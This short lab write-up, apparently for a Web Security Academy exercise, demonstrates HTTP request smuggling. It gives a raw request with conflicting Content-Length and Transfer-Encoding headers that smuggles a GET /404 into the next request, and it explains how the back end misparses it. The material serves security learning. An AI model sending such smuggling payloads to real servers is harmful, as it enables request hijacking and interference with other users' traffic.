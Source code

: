 ```
POST / HTTP/1.1
Host: 0a48001304b0738e815803aa00a300f7.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```

Now when I again send the request or new get it show Not found error

<img src="images/image1.png" alt="third" width="500">

If the attack is successful, then the last two lines of this request are treated by the back-end server as belonging to the next request that is received. This will cause the subsequent "normal" request to look like this:

```
GET /404 HTTP/1.1
Foo: xPOST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11
q=smuggling
```
